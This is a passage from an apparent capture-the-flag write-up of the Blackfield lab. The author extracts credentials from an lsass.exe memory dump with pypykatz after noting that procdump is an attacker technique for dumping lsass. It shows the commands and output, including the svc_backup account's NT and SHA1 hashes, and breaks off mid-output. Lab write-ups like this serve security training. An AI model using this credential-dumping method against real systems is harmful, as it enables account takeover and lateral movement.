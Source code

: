 It’s a series of Zip archives, and inside each is a memory dump file.

### Extract Hashes

Immediately I’m drawn to `lsass.zip`. [Mimikatz](https://github.com/gentilkiwi/mimikatz) first came to promenance because it would dump plaintext credentials and hashes from `lsass.exe` As anti-virus started catching on to that, attackers pivoted. A [well known technique](https://attack.mitre.org/techniques/T1003/) is to use `procdump.exe` from [Sysinternals](https://docs.microsoft.com/en-us/sysinternals/) (and signed by Microsoft) to dump `lsass.exe` and then exfil that memory dump and extract hashes from it in the attacker controlled space.

I’ll unzip `lsass.zip` and it gives a 137MB Mini Dump, which is the memory from the process at the time of capture:

```

root@kali# unzip lsass.zip 
Archive:  lsass.zip
  inflating: lsass.DMP               
root@kali# file lsass.DMP 
lsass.DMP: Mini DuMP crash report, 16 streams, Sun Feb 23 18:02:01 2020, 0x421826 type
root@kali# ls -lh lsass.DMP 
-rwxrwx--- 1 root vboxsf 137M Feb 23 11:02 lsass.DMP

```

I could move this over to a Windows VM, but there’s a Mimikatz alternative, [pypykatz](https://github.com/skelsec/pypykatz) which will work just fine. I’ll install it with `pip3 install pypykatz`. [This blog](https://en.hackndo.com/remote-lsass-dump-passwords/#linux--windows) has a good section on dumping with `pypykatz` from Linux. It dumps a bunch of information:

```

root@kali# pypykatz lsa minidump lsass.DMP
INFO:root:Parsing file lsass.DMP                          
FILE: ======== lsass.DMP =======                          
== LogonSession ==
authentication_id 406458 (633ba)                    
session_id 2
username svc_backup                        
domainname BLACKFIELD                               
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413  
luid 406458
        == MSV ==                          
                Username: svc_backup                      
                Domain: BLACKFIELD   
                LM: NA                              
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
        == WDIGEST [633ba]==                              
                username svc_backup
                domainname BLACKFIELD
                password None                             
        == SSP [633ba]==             
                username                   
                domainname
                password None
        == Kerberos ==
                Username: svc_backup                      
                Domain: BLACKFIELD.LOCAL   
                Password: None                            
        == WDIGEST [633ba]==                              
                username svc_backup
                domainname BLACKFIELD
```